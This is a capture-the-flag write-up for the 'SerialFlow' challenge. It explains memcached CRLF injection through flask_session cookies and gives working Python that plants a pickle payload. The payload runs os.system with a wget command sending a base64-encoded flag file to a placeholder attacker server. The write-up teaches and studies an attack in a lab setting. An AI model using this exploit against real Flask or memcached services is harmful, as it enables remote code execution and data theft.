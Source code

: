 # SerialFlow

>SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

Difficulty: __medium__  
Source Code: Provided

__Obs:__ _Todos os arquivos referenciados foram disponibilizados no desafio._

[Memcached Command Injections at Pylibmc](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) is the vulnerability that will be exploited in this challenge.

__Memcached__ is an in-memory caching system that, when used with __flask_session__, Could have a significant risk to applications. This is because it is possible to inject serialized objects into __Memcached__, and when these objects are loaded by __flask_session__, they are deserialized, allowing command injection.

The main commands we need to know about __Memcached__ are:
__Note:__ The information was taken from the mentioned article.

| Command | Format                                                          |
| :------ | :-------------------------------------------------------------- |
| set     | `set <key> <flags> <expiry> <datalen> [noreplay]\r\n<data>\r\n` |
| get     | `get <key>\r\n`                                                 |
- __flag:__ data specific client side flags
- __expiry:__ expiration time (in seconds)
- __datalen:__ size of the data (in bytes)
- __data__: data block

## How are the commands injected?

__Memcached__ supports both plaintext and binary in its communication protocol, and commands are separated by __CRLF__. So when flask_session saves or load information in __Memcached__, we can send multiple commands separated by `\r\n`.

## In practice

Our challenge uses __Memcached__ + __flask_session__. The injection point is the `sessionId` which is stored in the `Cookies` with the key `session`.

So, if we make a __GET__ request to the server with the following value: `session=RANDOM_KEY\r\nset session:1337 0 2592000 1\r\nA\r\n`.
The __flask_session__ will search for the session using the value we passed in the cookies. It will send the command `get RANDOM_KEY\r\nset session:1337 0 2592000 1\r\nA\r\n` to __Memcached__. As __CRLF__ is used as a separator. __Memcached__ will interpret the command as two, separating them at the first `\r\n` and executing a get and a set.

Thus, we will insert a new session with the `key` 1337, `flag` 0, `expiry` in 2592000 with an information of 1 byte in length which is the value A.

## Exploit

First, we will create an object to serialize with __pickle__ in python.
```python
class RCE:
    def __reduce__(self):
        cmd = ('wget https://{YOUR_SERVER}?flag=$(cat /flag*.txt | base64)')
        return os.system, (cmd,)
```

We need to generate the payload with our RCE
```python
def generate_exploit(session_id):
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = session_id.encode('utf-8') + b'\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
```

Then we will make two calls to the server.
First, to save our serialized code in __Memcached__
Then, to make the __flask_session__ load our payload and deserialize our code thus executing our command.
```python
url = "http://{IP}:{PORT}"

response = requests.get(url)
session_id = response.headers['Set-Cookie'].split("session=")[1].split(';')[0]
requests.get(url, cookies={"session": generate_exploit(session_id)})
response = requests.get(url, cookies={"session": "1337"})
print(response.content)
``` 
